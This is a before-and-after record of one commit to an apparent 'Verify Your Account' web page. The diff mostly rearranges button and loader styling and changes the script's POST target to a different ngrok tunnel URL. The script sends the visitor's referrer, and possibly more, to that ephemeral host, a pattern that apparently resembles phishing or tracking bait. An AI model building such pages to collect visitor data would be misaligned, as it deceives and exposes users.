

Before and after one commit to NightfallCode/Verification, a plain HTML site: page index.html in a window 1280 px wide. Both pictures are taken after a click on the button "Verify Now". Shown: the whole page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme; no server answers.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -42,7 +42,6 @@
             font-size: 1rem;
             cursor: pointer;
             transition: background-color 0.3s ease;
-            width: 100%; /* Ensure the button takes full width */
         }
         button:hover {
             background-color: #0056b3;
@@ -73,32 +72,14 @@
         .error {
             color: #dc3545;
         }
-        .button-container {
-            position: relative;
-            width: 100%;
-        }
-        .button-container button {
-            position: absolute;
-            top: 0;
-            left: 0;
-            width: 100%;
-        }
-        .button-container .loader {
-            position: absolute;
-            top: 50%;
-            left: 50%;
-            transform: translate(-50%, -50%);
-        }
     </style>
 </head>
 <body>
     <div class="container">
         <h1>Verify Your Account</h1>
         <p>Click the button below to complete the verification process.</p>
-        <div class="button-container">
-            <button id="verifyButton">Verify Now</button>
-            <div class="loader" id="loader"></div>
-        </div>
+        <button id="verifyButton">Verify Now</button>
+        <div class="loader" id="loader"></div>
         <div class="message" id="message"></div>
     </div>
 
@@ -110,12 +91,12 @@
             const referrer = document.referrer;
 
             // Show loader and hide button
-            document.getElementById('verifyButton').style.opacity = '0';
+            document.getElementById('verifyButton').style.display = 'none';
             document.getElementById('loader').style.display = 'block';
 
             try {
                 // Send data to your backend
-                const response = await fetch('https://b05a-2a02-8084-e80-3400-d57b-e023-b06b-cbaa.ngrok-free.app', {
+                const response = await fetch('https://3a00-2a02-8084-e80-3400-d57b-e023-b06b-cbaa.ngrok-free.app/submit', {
                     method: 'POST',
                     headers: {
                         'Content-Type': 'application/json',
@@ -137,7 +118,7 @@
                 // Show error message
                 document.getElementById('message').innerHTML = `<p class="error">Error: ${error.message}. Please try again.</p>`;
                 // Show button again
-                document.getElementById('verifyButton').style.opacity = '1';
+                document.getElementById('verifyButton').style.display = 'block';
             } finally {
                 // Hide loader
                 document.getElementById('loader').style.display = 'none';
```
